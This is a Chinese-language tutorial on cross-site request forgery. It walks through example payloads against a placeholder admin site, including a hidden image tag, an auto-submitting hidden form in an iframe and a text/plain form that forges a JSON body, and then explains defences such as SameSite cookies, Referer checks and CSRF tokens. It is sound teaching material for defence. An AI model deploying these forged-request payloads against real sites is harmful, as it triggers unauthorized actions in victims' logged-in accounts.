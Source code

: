 # CSRF 跨站偽造請求

CSRF (Cross-site request forgery) 跨站偽造請求，**駭客** 利用使用者在 **A 網** 已驗証的身份，在使用者進入 **第三網 (駭客架設)** 時，發起對 **A 網** 隱藏式的請求指令 **達成指定目的**，而非透過 **使用者** 的意願。
![creativegroundtech](/security/img/cross-site-request-forgery.webp)

> 圖片出處：creativegroundtech

1. 登入 **銀行網**
2. (成功) 取得使用者認證資料
3. 駭客發送 `釣魚網站` 或 `惡意連結` 給使用者
4. 使用者到 **駭客網站** 不知情下，送出了到 **銀行網** 的指令請求
5. 銀行依 2 取得的身份驗証，成功執行請求。

:::tip 瀏覽器機制
當發出 **請求** 給某個網域，其網域關聯的 `cookie` 也會一起被帶上 **請求** 之中，所以駭客就是利用 `cookie`中已驗證的身份，發動攻擊。
:::

## 攻擊方式

### GET

假設後台的 **刪除** 功能，可以直接以 `/delete?id=3` 來刪除 `id=3`的項目。理論上，使用者必須先驗證過個人資料，且在後台操作才會執行 **刪除**。

```html
<a href="/delete?id=3"> 刪除 </a>
```

<table>
  <tr>
    <td>標題</td>
    <td>更新時間</td>
    <td>操作</td>
  </tr>
  <tr>
    <td>這是資料</td>
    <td>2021-12-15</td>
    <td><button>刪除</button></td>

  </tr>
</table>

#### 駭客行為

在使用者已登入過後台的情況下，對你發送 **釣魚網站** 、 **惡意連結**，在惡意網站內或連結中，寫入下面內容 (假設 後台 網址：`https://www.admin.com`)：

- **被動**

  進入網站後 「點擊」 執行 **請求**

  ```html
  <a href="https://www.admin.com/delete?id=3">開始測驗</a>
  ```

  <a>開始測驗</a>

  當你點下時，就是到了 `https://www.admin.com` 且送出了 **DELETE** 指令，刪除了某個東西。

- **主動**

  進入網站時，就 **自動送出請求**

  ```html
  <img src="https://www.admin.com/delete?id=3" width="0" height="0" />
  <a href="/test">開始測驗</a>
  ```

  將 `<img>` 設為 **隱藏**，當網站進入後，就會請求 `url`，在不知情下就被攻擊了。

### POST

如果**刪除功能** 是 ` POST`，駭客也可以使用 `<form>` 來主動提交表單，這是藉由 `<iframe>` 來隱藏 `<form>` 的表單顯示。[stackoverflow](https://stackoverflow.com/questions/17940811/example-of-silently-submitting-a-post-form-csrf)

```html {1,3,4,8,13}
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="https://www.admin.com/delete"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="id" value="3" />
  <input type="submit" value="submit" />
</form>

<script>
  document.getElementById('csrf-form').submit()
</script>
```

> 當進入網站，就送出表單。

### JSON 傳送

常見與後端溝通的 `json` ，也是有機會被攻擊，主要是透過 **字元** 組合達到指定的 `json` 樣式。

```html {4}
<form
  action="https://small-min.blog.com/delete"
  method="post"
  enctype="text/plain"
>
  <input name='{"id":3, "ignore_me":"' value='test"}' type="hidden" />
  <input type="submit" value="delete!" />
</form>
```

會產生這樣的 **請求** body

```js
{
  "id": 3,
  "ignore_me": "=test"
}
```

:::tip 提醒
但這個攻擊，是發生在 **Content-Type:** `text/plain` 的情況下，如果 **服務端** 有限定類型，是可以避免這個部分。
:::

## 防禦方式

### 使用者

一般來說 **CSRF** 都是發生在使用者己經登入的狀態，才能發動偽造的請求。如果真的要避免，就是使用完網站就登出，這樣是可以避免，但不是很符合人性。

### 前端

- **圖形化驗證**

  在操作頁加上 **圖形化驗証** ，「驗証成功」才可以請求操作，增加了發送請求的難度。

- **Cookie SameSite 同源設置**

  在設置 `cookie` 時，加上 `SameSite=Strict` 會將 Cookie 限制在的 **同源** (當下設置 cookie 的 `domain` 才可以取得) 情況下使用。

  :::tip 提醒
  `SameSite` 的設置，還會影響寫入!!
  :::

### 後端

- **檢查 Referer**

  `request` 的 `Referer` 可以看到發出請求的來源網址，**服務端** 可以由這位部分來判斷是不是合法的 `domain`。

- **隱藏的 `CSRF TOKEN` 欄位**

  在 `<form>` 表單裡，安插一個 **隱藏**的 `_csrf` 欄位，而這個欄位的值就是由 **服務端** 所提供的「金鑰 `token`」，每次提交 **請求** 時，都會核對這個欄位的「值」是否與 **服務端** `session` 的 `token` 相符。
  且每次進都都會重新產生「金鑰」。

  ```html {3}
  <form action="https://small-min.blog.com/delete" method="POST">
    <input type="hidden" name="id" value="3" />
    <input type="hidden" name="_csrf" value="1Zad3aedfaZdadfw" />
    <input type="submit" value="送出" />
  </form>
  ```

  :::tip 提示
  `express` 針對 `CSRF` 防範的工具 「 [csurf](https://github.com/expressjs/csurf) 」，就是使用這個作法。
  :::

  :::warning 注意
  若你的 **服務端**，沒有限制發請求的 `domain`，還是有可能被駭客拿到這個 `token`。
  :::

## 結論

其實最主要的防範方式，還是要 **CSRF 驗証機製** 加上 **請求來源** 來把關，更多層的機制「傷害」可以越低。

## Reference

- [讓我們來談談 CSRF](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)
- [全端勇士之路 Node.js 基礎學習-CSRF 篇](https://hsiangfeng.github.io/nodejs/20190704/2336420619/)
- [imperva - Cross site request forgery (CSRF) attack](https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/)
- [Referer WIKI](https://zh.wikipedia.org/wiki/HTTP%E5%8F%83%E7%85%A7%E4%BD%8D%E5%9D%80)
- [SameSite Cookie，防止 CSRF 攻击](https://www.cnblogs.com/ziyunfei/p/5637945.html)
- [[Day 26] Cookies - SameSite Attribute](https://ithelp.ithome.com.tw/articles/10251288)
- [網站安全 🔒 再探同源政策，談 SameSite 設定對 Cookie 的影響與注意事項](https://medium.com/%E7%A8%8B%E5%BC%8F%E7%8C%BF%E5%90%83%E9%A6%99%E8%95%89/%E5%86%8D%E6%8E%A2%E5%90%8C%E6%BA%90%E6%94%BF%E7%AD%96-%E8%AB%87-samesite-%E8%A8%AD%E5%AE%9A%E5%B0%8D-cookie-%E7%9A%84%E5%BD%B1%E9%9F%BF%E8%88%87%E6%B3%A8%E6%84%8F%E4%BA%8B%E9%A0%85-6195d10d4441)

